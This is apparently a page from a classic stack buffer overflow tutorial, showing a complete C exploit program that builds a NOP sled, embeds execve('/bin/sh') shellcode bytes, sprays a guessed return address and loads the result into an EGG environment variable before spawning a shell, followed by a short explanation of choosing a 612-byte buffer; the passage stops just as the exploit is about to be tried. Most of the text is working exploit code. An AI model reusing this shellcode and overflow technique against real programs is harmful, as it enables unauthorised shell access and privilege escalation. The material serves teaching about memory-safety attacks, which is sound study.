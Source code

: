 	#include <stdlib.h>

	#define DEFAULT_OFFSET                    0
	#define DEFAULT_BUFFER_SIZE             512
	#define NOP                            0x90

	char shellcode[] =
		"\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b"
		"\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd"
		"\x80\xe8\xdc\xff\xff\xff/bin/sh";

	unsigned long get_sp(void) {
		__asm__("movl %esp,%eax");
	}

	void main(int argc, char *argv[]) {
		char *buff, *ptr;
		long *addr_ptr, addr;
		int offset=DEFAULT_OFFSET, bsize=DEFAULT_BUFFER_SIZE;
		int i;

		if (argc > 1) bsize  = atoi(argv[1]);
		if (argc > 2) offset = atoi(argv[2]);

		if (!(buff = malloc(bsize))) {
			printf("Can't allocate memory.\n");
			exit(0);
		}

		addr = get_sp() - offset;
		printf("Using address: 0x%x\n", addr);

		ptr = buff;
		addr_ptr = (long *) ptr;
		for (i = 0; i < bsize; i+=4)
		*(addr_ptr++) = addr;

		for (i = 0; i < bsize/2; i++)
		buff[i] = NOP;

		ptr = buff + ((bsize/2) - (strlen(shellcode)/2));
		for (i = 0; i < strlen(shellcode); i++)
		*(ptr++) = shellcode[i];

		buff[bsize - 1] = '\0';

		memcpy(buff,"EGG=",4);
		putenv(buff);
		system("/bin/bash");
	}

A good selection for our buffer size is about 100 bytes more than the size
of the buffer we are trying to overflow.  This will place our code at the end
of the buffer we are trying to overflow, giving a lot of space for the `NOPs`,
but still overwriting the return address with the address we guessed.  The
buffer we are trying to overflow is 512 bytes long, so we'll use 612.  Let's
try to overflow our test program with our new exploit:
